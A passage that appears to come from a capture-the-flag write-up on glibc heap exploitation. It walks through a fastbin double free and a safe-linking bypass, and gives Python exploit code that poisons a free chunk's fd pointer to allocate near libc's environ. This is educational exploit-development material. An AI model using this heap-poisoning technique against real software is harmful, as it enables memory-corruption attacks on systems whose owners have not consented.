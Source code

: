 This is how the heap looks in `pwndbg` after performing the above operations 

![alt text](image.png)
 
* As you can see the two fastbin pointers are pointing to the same chunk.    

* Next up we allocate chunks to corrupt the `fd` of this double free chunk, before that we need to take `safe linking` linking in account and perform the obfuscation. 

* In the above case `pos` will be equal to `0x63c227661050` 

```python 
pos = heap_leak + 0x1050 # <--- heap data pointer
ptr = libc.sym['environ'] - 0x10  # <--- new fd

for i in range(7):
    malloc(i, 0x78, "A"*0x78)  

malloc(0, 0x78, p64((pos >> 12) ^ ptr)) #Corrupt fd of chunk A
malloc(1, 0x78, "F"*0x78) #Allocate chunk B
malloc(2, 0x78, "G"*0x78) #Allocate chunk A   
```   

As you can see the free chunk list now as `labels` in it, which is `0x10` bytes before `environ`   
